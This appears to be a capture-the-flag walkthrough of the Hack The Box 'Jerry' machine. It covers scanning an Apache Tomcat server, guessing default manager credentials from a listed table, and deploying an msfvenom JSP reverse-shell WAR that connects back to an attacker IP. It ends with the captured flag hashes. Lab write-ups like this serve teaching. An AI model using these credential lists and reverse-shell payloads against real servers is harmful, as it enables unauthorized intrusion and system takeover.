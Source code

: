 #Tomcat

# Reconnaissance
```bash
# Automatic tools
# nmapAutomator (https://github.com/21y4d/nmapAutomator)
cd /usr/local/bin/
sudo ./nmapAutomator.sh --host 10.10.10.95 --type All
# Manually
nmap -sV -sC -A 10.10.10.95 -Pn 
```

```txt
---------------------Starting Port Scan-----------------------

PORT     STATE SERVICE
8080/tcp open  http-proxy

---------------------Starting Script Scan-----------------------

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat

Running Vuln scan on all ports
This may take a while, depending on the number of detected services..                                                                                                           
                                                                    
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-server-header: Apache-Coyote/1.1
| http-enum: 
|   /examples/: Sample scripts
|   /manager/html/upload: Apache Tomcat (401 Unauthorized)
|   /manager/html: Apache Tomcat (401 Unauthorized)
|_  /docs/: Potentially interesting folder
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-dombased-xss: Couldn't find any DOM based XSS.

```

# Enumeration

## Enumerate on 8080
```bash
gobuster dir -u http://10.10.10.95:8080 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -k -t 30
```
Seems like there are only one port 8080 open.

![[Jerry-01.png]]

when we access the 8080 port, we will find a Apache Tomcat 
Apache Tomcat/7.0.88 http page.

Sure, first we will gobuster this folder.

From  nmapAutomator output we will try these folder:

```
http://10.10.10.95:8080/examples/
```
![[Jerry-02.png]]

```
http://10.10.10.95:8080/manager/html/upload
```

Seems like upload was a login page.

![[Jerry-03.png]]

```
http://10.10.10.95:8080/manager/html
```

![[Jerry-05.png]]

Also has a login page.
```
http://10.10.10.95:8080/docs/
```

![[Jerry-06.png]]

# Exploitation
## Tomcat Credential attacks

With login page, let's try the default credential of Apache Tomcat 7

```google
Apache Tomcat 7 default password
```

```txt
# Apache Tomcat Default Credentials

|Username     |Password  |
|-------------|----------|
|admin        |password  |
|admin        |<blank>   |
|admin        |Password1 |
|admin        |password1 |
|admin        |admin     |
|admin        |tomcat    |
|both         |tomcat    |
|manager      |manager   |
|role1        |role1     |
|role1        |tomcat    |
|role         |changethis|
|root         |Password1 |
|root         |changethis|
|root         |password  |
|root         |password1 |
|root         |r00t      |
|root         |root      |
|root         |toor      |
|tomcat       |tomcat    |
|tomcat       |s3cret    |
|tomcat       |password1 |
|tomcat       |password  |
|tomcat       |<blank>   |
|tomcat       |admin     |
|tomcat       |changethis|
```

Let's try one by one. hahaha and we’re in using the suggested tomcat:s3cret creds dropped me into the admin panel.

```
http://10.10.10.95:8080/manager/html
```

![[Jerry-07.png]]

We will find that there are a upload function we could use it to deploy WAR file.

![[Jerry-08.png]]

Let's create a reverse shell WAR file, these payloads can be easily found on the web.

## War shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.4 lport=1234 -f war > shell.war
```

we upload it to web app and click the deploy.

![[Jerry-09.png]]

we build up a listenr for port 1234 And we will click on the file we have just deployed, `http://10.10.10.95:8080/shell/` 

Very Nice! we get the shell!

```bash
whoami
# we will know we have nt authority\system privilege, that means we don't need to do privilege escalation
cd C:\Users\Administrator\Desktop\flags
type "2 for the price of 1.txt"
# user flag
7004dbcef0f854e0fb401875f26ebd00
# root flag
04a8b36e1545a455393d067e772fe90e
```

![[Jerry-10.png]]
